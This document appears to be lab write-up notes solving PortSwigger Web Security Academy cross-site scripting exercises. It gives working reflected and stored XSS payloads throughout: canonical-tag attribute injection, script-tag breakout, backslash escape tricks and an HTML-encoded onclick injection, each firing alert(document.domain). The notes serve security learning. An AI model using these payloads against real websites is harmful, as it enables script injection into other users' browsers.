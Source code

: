 1. Web root
2. Canonical tag in the HTTP response
```
<link rel="canonical" href='https://0a7b00f203c4cbf398f4c76000df0052.web-security-academy.net/'/>
```
3. Probe XSS characters after a question mark in the URL
```
GET /?'"<>
```
- Response indicates that we can create new attributes because we can inject a single quote and break the `href` tag
```html
<link rel="canonical" href='https://0aa800540325cb1798b2d1cb006f00dd.web-security-academy.net/?'%22%3c%3e'/>
```
4. Use XSS cheatsheet and create a valid payload
```
GET /?'accesskey%3d'X'onclick='alert(document.domain)
```
- If a victim navigates to the URL and presses `<COMMAND> + <SHIFT> + X`, they will trigger the payload
# Reflected XSS into a JavaScript string with single quote and backslash escaped
1. Search function
2. Payload appears inside a script tag and single quotes and backslashes are escaped
3. Submit payload that terminates the existing script tag and introduce your own one
```
GET /?search=xsstesting</script><img+src%3dx+onerror%3dalert(document.domain)>
```
- This works because the browser first performs the HTML parsing, then subsequently performs JS parsing
# Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
1. Search function
2. Payload appears inside a script tag and everything is HTML encoded except for single quotes
3. Submitting first single quote payload reveals that it is escaped
4. Submit our own backslash to escape the backslash meant to escape our payload and successfully breakout of the JavaScript
5. Insert alert payload
```
/?search=xsstesting\';alert(document.domain)//
```
# Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
1. View post
2. Submit a comment including a website
3. See that our user input is submitted inside a JavaScript quoted tag attribute
```html
<a id="author" href="https://test.com" onclick="var tracker={track(){}};tracker.track('https://test.com');">
```
4. All attempts to inject single quotes and double quotes are filtered
5. HTML encode the single quote of the payload and insert it into the website parameter
```
website=https%3A%2F%2Fxsstesting1.com%26apos%3b-alert(document.domain)-%26apos%3b
```
- Note: You need to URL encode the `&apos;` as to not break syntax in the POST body